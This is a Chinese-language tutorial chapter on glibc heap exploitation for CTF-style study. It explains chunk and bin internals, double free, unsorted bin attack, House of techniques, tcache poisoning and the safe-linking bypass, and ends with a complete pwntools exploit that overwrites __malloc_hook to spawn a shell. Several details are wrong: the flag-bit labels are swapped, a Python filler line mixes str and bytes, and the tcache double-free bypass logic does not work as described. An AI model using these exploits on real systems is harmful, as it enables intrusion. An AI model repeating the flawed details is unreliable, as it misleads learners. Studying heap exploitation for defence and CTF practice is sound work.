

## 5. 堆利用基础

堆（Heap）是程序运行时动态分配内存的核心区域，也是二进制安全中攻击面最大、技巧最丰富的领域之一。与栈溢出相比，堆利用需要更深入地理解内存分配器的内部机制，但同时也能绕过栈保护（Canary、ASLR）等现代防御。本章从堆的底层结构出发，系统讲解 glibc ptmalloc2 分配器的工作原理、常见堆利用技术及其对抗方法。

### 5.1 堆内存管理基础

#### 5.1.1 什么是堆

程序的虚拟内存空间中，堆是位于数据段（BSS/数据段）上方、向高地址增长的区域。与栈的自动管理不同，堆的分配和释放由程序员手动控制（`malloc`/`free`），或由语言运行时（如 C++ 的 `new`/`delete`）间接管理。

```text
高地址 ┌──────────────────────┐
       │       Stack (栈)      │ ← 向低地址增长
       │         ↓             │
       │     ... 未使用 ...    │
       │         ↑             │
       │       Heap (堆)       │ ← 向高地址增长
       ├──────────────────────┤
       │       BSS 段          │
       ├──────────────────────┤
       │       Data 段         │
       ├──────────────────────┤
       │       Text 段         │
低地址 └──────────────────────┘
```

栈和堆的对比：

| 特性 | 栈 (Stack) | 堆 (Heap) |
|------|-----------|-----------|
| 管理方式 | 编译器自动管理（函数调用帧） | 程序员手动管理（malloc/free） |
| 生长方向 | 高地址 → 低地址 | 低地址 → 高地址 |
| 分配速度 | 极快（移动栈指针即可） | 较慢（需要分配器查找空闲块） |
| 碎片问题 | 无（严格的LIFO） | 有（内存碎片化） |
| 大小限制 | 通常 8MB | 受物理内存和地址空间限制 |
| 典型漏洞 | 栈溢出、返回地址覆写 | 堆溢出、UAF、double free |

#### 5.1.2 glibc 内存分配器：ptmalloc2

Linux 下 glibc 使用 ptmalloc2 作为 `malloc` 的实现。理解其内部结构是堆利用的基础。

**核心概念：**

- **Arena（竞技场）**：每个线程一个分配区域，多线程时主线程使用 `main_arena`，其他线程创建独立 arena。arena 内部管理多个 bin（空闲链表）。
- **Chunk（块）**：分配器管理的最小内存单元，每次 `malloc` 返回一个 chunk 的用户数据区指针。
- **Top Chunk（顶端块）**：arena 中最大的未分配 chunk，当所有 bin 都没有合适的空闲块时，从 top chunk 切割分配。
- **Last Remainder（最后余块）**：从一个大 chunk 切割后剩余的部分，用于满足下一次同大小范围的请求。



### 5.2 Chunk 结构详解

理解 chunk 的内存布局是所有堆利用技术的前提。每个 chunk 包含元数据头和用户数据区：

```c
// glibc malloc.c 中的 chunk 结构（64位系统）
struct malloc_chunk {
    size_t prev_size;    // 前一个 chunk 的大小（如果前一个 chunk 空闲）
    size_t size;         // 当前 chunk 的大小（含头部，低 3 位为标志位）
    struct fd *fd;       // forward pointer（仅在空闲时有效）
    struct bk *bk;       // backward pointer（仅在空闲时有效）
    // 以下字段仅在 large bin chunk 中使用
    struct fd *fd_nextsize;
    struct bk *bk_nextsize;
};
```

**size 字段的标志位（低 3 位）：**

| 位 | 名称 | 含义 |
|----|------|------|
| Bit 0 (A) | PREV_INUSE | 前一个 chunk 是否正在被使用。为 1 表示前一个 chunk 正在使用，此时 `prev_size` 字段无意义 |
| Bit 1 (M) | IS_MMAPPED | 该 chunk 是否由 mmap 分配 |
| Bit 2 (P) | NON_MAIN_ARENA | 该 chunk 是否属于非主线程的 arena |

**关键规则：** chunk 的大小总是 16 字节对齐（64 位系统）或 8 字节对齐（32 位系统）。size 字段的低 3 位被用作标志位，所以实际大小需要 `size & ~0x7` 来获取。

```text
已分配 chunk:                    空闲 chunk:
┌──────────────┐                ┌──────────────┐
│  prev_size   │  ← 前一块空闲  │  prev_size   │
├──────────────┤    时才有效     ├──────────────┤
│     size     │  含标志位       │     size     │
├──────────────┤                ├──────────────┤
│   fd (用户    │  ← malloc     │     fd       │  ← forward pointer
│   数据开始)   │    返回地址     ├──────────────┤
├──────────────┤                │     bk       │  ← backward pointer
│   ...用户    │                ├──────────────┤
│   数据区...  │                │  fd_nextsize │
├──────────────┤                ├──────────────┤
│ (next chunk   │               │  bk_nextsize │
│  的 prev_size)│               ├──────────────┤
└──────────────┘                │  next chunk   │
                                │  的 prev_size │
                                └──────────────┘
```

### 5.3 Bin（空闲链表）体系

当 chunk 被 `free` 后，不会立即归还操作系统，而是放入对应的 bin 链表中等待复用。glibc 使用 4 类 bin 来管理不同大小的空闲 chunk：

| Bin 类型 | 管理范围 | 数据结构 | 特点 |
|----------|---------|----------|------|
| Fastbin | ≤ 128B (64位) | 单链表，LIFO | 不合并，速度最快，chunk 不清除标志位 |
| Tcache | ≤ 1032B (64位) | 单链表，LIFO | glibc 2.26+ 引入，每个线程独立，不加锁 |
| Small Bin | ≤ 1024B (64位) | 双链表，FIFO | 精确大小匹配，chunk 大小固定 |
| Unsorted Bin | 任意大小 | 双链表 | 被 free 的 chunk 先进入此 bin，按需排序到 small/large bin |
| Large Bin | > 1024B (64位) | 双链表 + fd_nextsize/bk_nextsize | 按大小范围管理，允许部分匹配 |

**Tcache（Thread Cache）详细机制（glibc 2.26+）：**

Tcache 是现代 glibc 中最重要的改变，它在 fastbin 之前增加了缓存层：

```c
// tcache_entry 结构
typedef struct tcache_entry {
    struct tcache_entry *next;  // 下一个空闲 chunk
    struct tcache_perthread_struct *key;  // 用于检测 double free
} tcache_entry;

// 每个线程最多缓存 7 个 chunk（默认配置）
#define TCACHE_MAX_BINS  64
#define TCACHE_FILL_COUNT  7
```

Tcache 优先级高于所有其他 bin，分配时先查 tcache，释放时优先进入 tcache。这个改变使得许多传统的堆利用技术需要调整。

### 5.4 堆溢出利用

堆溢出是最基础的堆利用原语，原理与栈溢出类似——向堆缓冲区写入超出分配大小的数据，覆盖相邻 chunk 的元数据或用户数据。

#### 5.4.1 堆溢出的典型攻击目标

```c
// 漏洞示例
char *buf1 = malloc(0x80);    // chunk A
char *buf2 = malloc(0x80);    // chunk B（紧邻 A）
// ... 还有其他 chunk

// 溢出：写入超过 0x80 字节，覆盖 buf2 的头部和数据
gets(buf1);  // 无长度限制
```

堆溢出可覆盖的内容及效果：

| 覆盖目标 | 效果 | 利用方式 |
|----------|------|----------|
| 相邻 chunk 的 size 字段 | 伪造 chunk 大小，导致 overlapping chunk | 后续 free 时合并异常，重叠分配 |
| 相邻 chunk 的 fd/bk 指针 | 控制 bin 链表结构 | 下次 malloc 返回任意地址（如 `__malloc_hook`） |
| 相邻 chunk 的用户数据（含函数指针） | 劫持控制流 | 覆盖虚表指针、回调函数地址 |
| 相邻 chunk 的 prev_size + PREV_INUSE | 触发错误的向前合并 | unlink 攻写任意地址 |

#### 5.4.2 Off-By-One 与 Off-By-Null

除了完整的溢出，off-by-one（多写 1 字节）和 off-by-null（多写 1 个 null 字节）也能造成严重后果：

```c
// Off-by-null 示例：多写了一个 \x00
void vuln(char *input) {
    char *a = malloc(0x108);  // 实际分配 0x110（含头部）
    char *b = malloc(0x108);
    size_t len = strlen(input);
    memcpy(a, input, len + 1);  // 包含 null terminator
    // 如果 input 恰好 0x108 字节，null 会覆盖 b 的 PREV_INUSE 位
    // 导致 b 被认为前面有一个空闲 chunk
}
```

Off-by-null 覆盖 PREV_INUSE 位的效果：
1. 当 chunk B 被 free 时，分配器检查 PREV_INUSE=0，认为前面有空闲 chunk
2. 读取 B 的 `prev_size` 字段，计算"前一个空闲 chunk"的地址
3. 如果我们通过堆溢出同时控制了 `prev_size`，就能让分配器在任意地址执行 unlink 操作

### 5.5 Use-After-Free（UAF）与 Double Free

#### 5.5.1 UAF 利用原理

UAF 漏洞在第 4 章已介绍其基本原理。从堆利用的角度，UAF 的核心价值在于：

1. **泄露堆地址**：free 后的 chunk fd 指向下一个空闲 chunk（或 bin 的 fd/bk），通过 UAF 读取可以泄露堆布局信息
2. **重用已释放 chunk**：通过精心构造的分配序列，让新分配的 chunk 落在已释放的 chunk 位置，覆盖其中的关键数据
3. **控制流劫持**：如果原 chunk 包含函数指针，UAF 可以读取/修改这些指针

#### 5.5.2 Double Free 利用

Double Free 是堆利用中最强大的原语之一。在没有 tcache 的情况下，同一 chunk 不能连续 free 两次（`malloc` 会检测），但可以通过释放其他 chunk 来绕过：

```python
# Fastbin Double Free（glibc < 2.26 或 tcache 用完后）
# 分配三个 chunk
alloc(0x60, b'A' * 0x60)  # chunk 0
alloc(0x60, b'B' * 0x60)  # chunk 1
alloc(0x60, b'C' * 0x60)  # chunk 2

# Double free：chunk0 -> chunk1 -> chunk0
free(0)           # fastbin: [0]
free(1)           # fastbin: [1 -> 0]
free(0)           # fastbin: [0 -> 1 -> 0]  ✓ 不连续所以通过检查

# 此时 fastbin 链表：0 → 1 → 0 → 1 → ...（循环）

# 利用：修改 chunk 0 的 fd 指针
# 第一次 malloc 得到 chunk 0
alloc(0x60, p64(target_addr - 0x18))  # 修改 fd 为目标地址
# 后续两次 malloc 取出 1 和 0
alloc(0x60, b'X' * 0x60)  # 取出 chunk 1
alloc(0x60, b'Y' * 0x60)  # 取出 chunk 0
# 第四次 malloc 会返回 target_addr！
alloc(0x60, p64(0xdeadbeef))  # 写入目标地址
```

**Tcache Double Free 绕过（glibc 2.29+）：**

现代 glibc 在 tcache 中增加了 `key` 字段检测 double free。绕过方式：

```python
# 方法：在两次 free 之间填满 tcache，让 chunk 进入 fastbin/unsorted bin
for i in range(7):
    alloc(0x80, f'filler {i}'.ljust(0x80, b'\x00'))

# 此时 tcache[0x90] 已满
alloc(0x80, b'A' * 0x80)  # target chunk
alloc(0x80, b'B' * 0x80)  # 隔断用

free(target)      # tcache[0x90] 已满，chunk 进入 unsorted bin
free(bypass)      # 不同 chunk，正常 free
free(target)      # 现在 tcache 有空间，可以再次进入 tcache ✓

# 现在 target 同时在 unsorted bin 和 tcache 中
```

### 5.6 Unsorted Bin Attack

当 small bin 和 large bin 中都没有合适的 chunk 时，分配器会遍历 unsorted bin。在遍历过程中，unsorted bin 的 bk 指针会被写入一个地址值（`unsorted_chunks(av)` 的地址）。利用这个特性可以向任意地址写入一个大值。

```python
# Unsorted Bin Attack 利用步骤：
# 1. 堆溢出覆盖 unsorted bin 中 chunk 的 bk 指针
#    bk = target_addr - 0x10（因为写入的是 bk+0x10 位置）

# 2. 触发 malloc（大小不在 unsorted bin 的 chunk 范围内）
#    分配器遍历 unsorted bin，执行以下操作：
#    bck = victim->bk;
#    unsorted_chunks(av)->bk = bck;
#    bck->fd = unsorted_chunks(av);  // 这里向 target_addr 写入 large value

# 3. target_addr 处被写入一个很大的值（通常是 main_arena+88 的地址）
```

**常见利用场景：**
- 覆写 `__malloc_hook` 为 one_gadget 地址
- 覆写 `_IO_list_all` 实现 FSOP（File Stream Oriented Programming）
- 覆写栈上的返回地址（如果能泄露栈地址）

### 5.7 House of 系列技术

#### 5.7.1 House of Spirit

在栈上伪造一个 fake chunk，通过 free 将其放入 fastbin，后续 malloc 就能在栈上分配内存，从而控制栈上数据（如返回地址附近的变量）。

```python
# 在栈上构造 fake chunk
# fake chunk 需要满足：
# 1. size 字段在 fastbin 范围内（如 0x40-0x80）
# 2. size 字段的下一个 chunk（fake_next）的 prev_size 和 size 合法

# 栈上布局（地址从高到低）：
# ... 局部变量 ...
# [fake_next_size]  ← 0x0000000000000000
# [fake_next_prev]  ← 0x0000000000000000
# [    padding    ]
# [fake_chunk_data] ← 我们想要控制的数据
# [fake_chunk_size] ← 0x0000000000000041 (PREV_INUSE | 0x40)

# free(fake_chunk_ptr)  → 进入 fastbin[0x40]
# malloc(0x38)          → 返回 fake_chunk_data，我们控制了这块栈内存
```

#### 5.7.2 House of Force

通过溢出修改 top chunk 的 size 为一个极大值（如 `0xffffffffffffffff`），然后通过一次 malloc 让 top chunk 指针跳转到任意位置，下一次 malloc 就能在目标地址分配内存。

```python
# 前提：能溢出 top chunk 的 size 字段
# 步骤：
# 1. 溢出 top chunk size = 0xffffffffffffffff
# 2. 计算偏移：offset = target_addr - (current_top + 0x10)
# 3. malloc(offset) → top chunk 指针变为 target_addr - 0x10
# 4. malloc(desired_size) → 返回 target_addr
```

**注意：** House of Force 在 glibc 2.29+ 中基本失效，因为增加了 top chunk size 的合法性检查。

#### 5.7.3 House of Orange

不需要 `free` 的利用技术——通过溢出修改 top chunk 的 size，使其"看起来"不够大，迫使分配器调用 `sysmalloc` 分配新的 top chunk。旧的 top chunk 会被放入 unsorted bin，从而触发后续的 unsorted bin attack 和 FSOP。

```python
# House of Orange 核心步骤：
# 1. 溢出修改 top chunk size（必须满足对齐和合法性）
#    - 新 size < 原始请求大小（触发 sysmalloc）
#    - 新 size 的 PREV_INUSE 位必须为 1
#    - 新 size 必须页对齐
# 2. malloc 一个大于新 top size 的 chunk → 旧 top 进入 unsorted bin
# 3. 利用 unsorted bin attack 覆写 _IO_list_all
# 4. 构造 fake FILE 结构体（vtable 劫持）
# 5. 触发 malloc/abort → FSOP 执行 shellcode
```

### 5.8 Tcache Poisoning（现代堆利用）

glibc 2.26 引入 tcache 后，许多传统技术变得更简单（因为 tcache 检查较少），但也催生了新的利用思路。

```python
# Tcache Poisoning（最简单的任意地址分配）
# 前提：存在 UAF 或堆溢出可以修改 tcache entry 的 next 指针

alloc(0x20, b'A' * 0x20)  # chunk 0
alloc(0x20, b'B' * 0x20)  # chunk 1

free(0)  # tcache[0x30]: [0]
free(1)  # tcache[0x30]: [1 -> 0]

# 通过 UAF 修改 chunk 1 的 next 指针
# （假设存在 UAF 可以读写已释放的 chunk）
write_to_freed(1, p64(target_addr))  # tcache[0x30]: [1 -> target_addr]

alloc(0x20, b'X' * 0x20)  # 取出 chunk 1
alloc(0x20, b'Y' * 0x20)  # 取出 target_addr！可以写入任意数据
```

**Safe Linking（glibc 2.32+）：**

为了应对 tcache poisoning，glibc 2.32 引入了 safe linking 机制：

```c
// fd 指针被异或加密
#define PROTECT_PTR(pos, ptr) \
    ((__typeof(ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR(&ptr, ptr)
```

绕过方式：
1. 泄露堆地址（右移 12 位的值）
2. 计算正确的加密值：`encrypted_fd = (chunk_addr >> 12) ^ target_addr`
3. 写入加密后的 fd

### 5.9 堆利用实战：完整 Exploit 编写流程

以下是使用 pwntools 进行堆利用的完整工作流程：

```python
from pwn import *

# 1. 环境准备
context.arch = 'amd64'
context.log_level = 'debug'  # 调试时开启

elf = ELF('./vulnerable')
libc = ELF('./libc.so.6')
# p = process('./vulnerable')
p = remote('challenge.example.com', 1337)

# 2. 封装交互函数
def alloc(idx, size, data=b''):
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    if data:
        p.sendafter(b'Data: ', data)

def free(idx):
    p.sendlineafter(b'>> ', b'2')
    p.sendlineafter(b'Index: ', str(idx).encode())

def show(idx):
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())

def edit(idx, data):
    p.sendlineafter(b'>> ', b'4')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendafter(b'Data: ', data)

# 3. 泄露 libc 地址
alloc(0, 0x420, b'A' * 0x420)  # 大 chunk，free 后进入 unsorted bin
alloc(1, 0x20, b'B' * 0x20)    # 防止与 top chunk 合并

free(0)
show(0)  # UAF 读取 unsorted bin 的 fd/bk（指向 main_arena+88）

leaked = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = leaked - libc.symbols['__malloc_hook'] - 0x10  # 偏移需实际计算
log.success(f'libc base: {hex(libc_base)}')

# 4. 构造 exploit
# 方案 A：Tcache Poisoning → 覆写 __malloc_hook
target = libc_base + libc.symbols['__malloc_hook']
one_gadget = libc_base + 0xXXXXXX  # 需要用 one_gadget 工具查找

alloc(2, 0x40, b'C' * 0x40)
alloc(3, 0x40, b'D' * 0x40)
free(2)
free(3)

# 修改 tcache next 指针（需要 UAF 或堆溢出）
edit(3, p64(target))  # tcache[0x50]: [3 -> target]

alloc(4, 0x40, b'E' * 0x40)   # 取出 chunk 3
alloc(5, 0x40, p64(one_gadget))  # 写入 __malloc_hook

# 5. 触发 shell
alloc(6, 0x10, b'F')  # 触发 __malloc_hook → one_gadget

p.interactive()
```

### 5.10 现代堆利用的对抗与绕过

| 防护机制 | 版本 | 作用 | 绕过方式 |
|----------|------|------|----------|
| Safe Linking | glibc 2.32+ | 加密 fd/bk 指针 | 泄露堆地址后计算异或值 |
| Tcache Key | glibc 2.29+ | 检测 tcache double free | 释放不同大小 chunk 填满 tcache 后进 fastbin |
| Top Chunk 检查 | glibc 2.29+ | 验证 top chunk size 合法性 | 使用其他技术（House of Orange 失效） |
| ASLR | 所有现代系统 | 随机化内存布局 | 泄露地址计算偏移 |
| PIE | 编译选项 | 随机化代码段 | 需要先泄露代码基址 |
| Full RELRO | 编译选项 | GOT 只读 | 需要其他写入原语 |

### 5.11 常见误区与调试技巧

**常见错误：**

1. **忽略 chunk 对齐**：malloc 返回的地址总是 16 字节对齐（64 位），构造 fake chunk 时 size 必须对齐
2. **忘记 PREV_INUSE 位**：chunk size 的最低位是标志位，不能只看数值大小
3. **混淆 chunk 大小和用户请求大小**：malloc(0x80) 实际分配 0x90（含 0x10 头部）
4. **tcache 计数错误**：tcache 每个 size 最多缓存 7 个，超出后才进入 fastbin/unsorted bin

**调试工具推荐：**

```bash
# GDB + pwndbg/peda：堆分析插件
pwndbg> heap            # 显示所有分配的 chunk
pwndbg> bins            # 显示所有 bin 的内容
pwndbg> vis_heap_chunks # 可视化堆布局

# GEF 插件
gef> heap chunks         # 显示堆 chunk
gef> heap bins fast      # 显示 fastbin

# pwntools 调试
from pwn import *
p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})
gdb.attach(p, 'b *main')  # 附加 GDB
```

### 5.12 学习资源与进阶方向

- **CTF 题目平台**：BUUCTF（pwn 专区）、攻防世界（进阶区）、CTFHub
- **经典论文**：《The Malloc Maleficarum》（2005）、《Understanding the Heap by Breaking it》
- **工具**：pwntools（exploit 开发）、one_gadget（查找 libc 中的一行 shell）、ropper（ROP gadget 查找）
- **进阶方向**：Large Bin Attack、Tcache Stashing Unlink Attack、House of Cat、House of Banana

***

> **本节小结**：堆利用是二进制安全中最复杂也最精妙的领域。核心在于理解 glibc 分配器的 chunk 结构和 bin 机制——所有技术都是在此基础上找到写入原语、泄露原语和控制流劫持的组合。建议先在 GDB 中单步跟踪 malloc/free 的完整流程，理解每个 bin 的操作细节，再尝试 CTF 题目实战。
